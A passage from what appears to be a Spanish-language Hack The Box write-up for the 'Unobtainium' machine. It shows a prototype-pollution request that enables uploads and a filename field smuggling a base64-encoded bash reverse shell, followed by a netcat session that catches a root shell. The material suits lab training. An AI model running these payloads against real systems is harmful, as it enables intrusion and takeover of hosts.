 La prueba de concepto es bastante sencilla. Mediante la propiedad ```__proto__``` es posible cambiar los valores de atributos asignándoselos a otra variable

<img src="/writeups/assets/img/Unobtainium-htb/10.png" alt="">

En mi caso, tengo que editar el atributo ```canUpload``` para setearlo a True y de esa manera poder comunicarme con ```/upload``` para abusar de la vulnerabilidad del módulo de ```google-cloudstorage-commands``` y poder ejecutar comandos. Como se está tomando como argumento ```message```, lo mas probable es que corresponda a la petición por PUT que vi antes

```null
curl -s -X PUT -H "Content-Type: application/json" -d '{"auth":{"name":"felamos","password":"Winter2021"},"message":{"__proto__":{"canUpload": "true"}}}' http://10.10.10.235:31337 | jq
{
  "ok": true
}
```

Ahora ya me puedo enviar la reverse shell

```null
echo "bash -c 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1'" | base64 -w 0 | xclip -sel clip
```

```null
curl -s -X POST -H "Content-Type: application/json" -d '{"auth":{"name":"felamos","password":"Winter2021"},"filename":"todo.txt & echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42LzQ0MyAwPiYxJwo= | base64 -d |bash"}' http://10.10.10.235:31337/upload | jq
{
  "ok": true,
  "Uploaded_File": "todo.txt & echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42LzQ0MyAwPiYxJwo= | base64 -d |bash"
}
```

Y la recibo en una sesión de netcat

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.235] 37969
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@webapp-deployment-9546bc7cb-6r7sq:/usr/src/app# script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
root@webapp-deployment-9546bc7cb-6r7sq:/usr/src/app# ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
root@webapp-deployment-9546bc7cb-6r7sq:/usr/src/app# export TERM=xterm
root@webapp-deployment-9546bc7cb-6r7sq:/usr/src/app# export SHELL=bash
```